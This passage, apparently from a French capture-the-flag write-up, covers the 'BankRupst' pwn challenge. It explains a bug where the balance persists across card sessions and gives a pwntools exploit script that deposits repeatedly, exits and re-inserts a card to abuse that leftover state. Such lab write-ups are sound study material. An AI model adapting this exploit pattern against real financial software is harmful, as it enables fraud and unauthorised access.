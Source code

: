 
##### Exploitation

💣 Nous allons tester "1) Insert BankRupst card" -> "2) Deposit" -> "Exit" puis nous allons voir si en relançant le programme avec une nouvelle carte la balance est à 0 ou reste sur l'ancien montant : 

![](attachment/957f20e9301ee9e2f8cef5fabd18a292.png)

💣 Ici, c'est totalement exploitable, on va écrire l'exploit avec pwntools : 

```python
from pwn import *

io = process(["./bankrupst"])

io.sendlineafter(b'Choose an option: ',b'1')

for i in range(13):
    io.sendlineafter(b'Choose an option: ',b'2')
    io.sendlineafter(b'How much do you want to deposit? ',b'100')

io.sendlineafter(b'Choose an option: ',b'6')
io.sendlineafter(b'Choose an option: ',b'1')

for i in range(2):
    io.sendlineafter(b'Choose an option: ',b'2')
    io.sendlineafter(b'How much do you want to deposit? ',b'100')


io.sendlineafter(b'Choose an option: ',b'4')
io.interactive()
```